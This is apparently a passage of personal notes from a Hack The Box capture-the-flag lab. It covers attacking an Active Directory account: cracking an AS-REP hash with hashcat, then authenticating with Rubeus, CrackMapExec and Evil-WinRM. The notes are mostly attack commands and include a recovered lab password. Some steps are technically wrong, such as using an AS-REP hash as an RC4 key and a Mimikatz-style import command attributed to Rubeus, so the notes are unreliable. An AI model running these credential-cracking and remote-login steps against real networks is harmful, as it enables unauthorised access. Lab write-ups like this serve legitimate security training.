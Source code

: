 ```md
If you want to leverage the hash directly for Kerberos-based authentication, tools like Rubeus (for Windows) or Kerbrute (for Linux) can help.
Using Rubeus:

    Use Rubeus to request a TGT using the AS-REP hash:

Rubeus.exe asktgt /user:svc-alfresco /rc4:551fefcdbe6bd38fa9495e57995ed2d6 /domain:htb.local /outfile:tgt.kirbi

Inject the TGT into the current session:

    Rubeus.exe tgt::import /ticket:tgt.kirbi

    Then, use tools like PsExec or WinRM clients that support Kerberos authentication.

3. CrackMapExec with Kerberos Tickets

CrackMapExec has a --kerberos flag to use pre-generated Kerberos tickets. Combine this with Impacket or other tools to generate the tickets.

    Generate a TGT using impacket-getTGT or Rubeus (as shown above).
    Use CrackMapExec to pass the ticket:

    export KRB5CCNAME=/path/to/ccache
    crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -d htb.local --kerberos

4. Evil-WinRM with Kerberos

Evil-WinRM can authenticate using Kerberos tickets. If the AS-REP hash is used to generate a valid ticket, you can pass it to Evil-WinRM:

    Generate a TGT (via Impacket or Rubeus).
    Run Evil-WinRM with Kerberos support:

evil-winrm -i 10.10.10.161 -u svc-alfresco -r htb.local -k
````

### cracking with hashcat

hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt

crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -d htb.local -p 's3r3ndipit'

evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3r3ndipit'